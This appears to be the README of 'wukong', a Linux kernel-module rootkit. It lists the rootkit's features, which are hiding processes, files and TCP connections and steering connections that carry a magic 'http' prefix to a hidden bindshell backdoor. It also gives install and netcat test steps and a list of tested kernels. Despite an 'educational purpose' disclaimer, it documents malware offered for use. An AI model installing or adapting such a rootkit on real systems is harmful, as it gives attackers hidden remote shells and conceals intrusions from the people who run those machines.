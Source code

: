 # wukong: A LKM rootkit for Linux kernel 2.6.x, 3.x and 4.x
<h1>
	Note:
</h1>
<p>
	<strong>This kernel rootkit is just for educational purpose and it shouldn't be used for any illegal activities, use this at your own risk.</strong>
</p>
<br />
<br />
<h1>
	Function
</h1>
<strong>1. Hide Linux Process.</strong><br />
<strong>2. Hide TCP connection.</strong><br />
<strong>3. Hide File/Directory.</strong><br />
<strong>4. Redirect TCP connection to backdoor server by using the specific confidential password.</strong><br />
<br />
<h1>
	Usage
</h1>
<h2>
	1. Environment:
</h2>
ubunt-14.04 (1.1.1.33) --- (1.1.1.1)ubunt-14.04 &nbsp;<br />
(client)&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; (server)<br />
<br />
<br />
<h2>
	2. Test step:
</h2>
<h3>
	a. on server
</h3>
cd wukong/<br />
sudo ./install.pl<br />
<br />
sudo nc -k -l 80<br />
<br />
<h3>
	b. on client
</h3>
nc 1.1.1.1 80<br />
http<br />
ifconfig<br />
<br />
PS：The connection will be redirected to bindshell<br />
<br />
nc 1.1.1.1 80<br />
111111<br />
<br />
PS: a rst will be received.<br />
<br />
nc 1.1.1.1 80<br />
111111<br />
aaaaaa<br />
<br />
PS: The connection will be connected with tcp 80.<br />
<br />
<h2>
	3. Result:
</h2>
<strong>a. Hide bindshell file.</strong><br />
<strong>b. Hide tcp 8000 connection.</strong><br />
<strong>c. Hide bindshell process</strong><br />
<strong>d. If "http" is the first four bytes to TCP 80, connection will be established with bindshell.</strong><br />
<br />
<br />
<h1>
	Tested OS:
</h1>
CentOS-5.5-i386-bin-DVD.iso<br />
&nbsp;&nbsp;&nbsp; Linux&nbsp; 2.6.18-408.el5 #1 SMP Tue Jan 19 09:13:33 EST 2016 i686 i686 i386 GNU/Linux<br />
CentOS-5.5-x86_64-bin-DVD<br />
&nbsp;&nbsp;&nbsp; Linux 2.6.18-194.el5 #1 SMP Fri Apr 2 14:58:14 EDT 2010 x86_64 x86_64 x86_64 GNU/Linux<br />
ubuntu-14.04.2-desktop-i386.iso<br />
&nbsp;&nbsp;&nbsp; Linux&nbsp; 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:45:15 UTC 2015 i686 i686 i686 GNU/Linux<br />
ubuntu-14.04.2-desktop-amd64.iso&nbsp; &nbsp;<br />
&nbsp;&nbsp;&nbsp; Linux&nbsp; 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:43:14 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux<br />
ubuntu-14.04.3-desktop-i386.iso<br />
&nbsp;&nbsp;&nbsp; Linux&nbsp; 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:18:00 UTC 2015 i686 i686 i686 GNU/Linux<br />
ubuntu-14.04.3-desktop-amd64.iso<br />
&nbsp;&nbsp;&nbsp; Linux&nbsp; 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:16:20 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux<br />
<br />
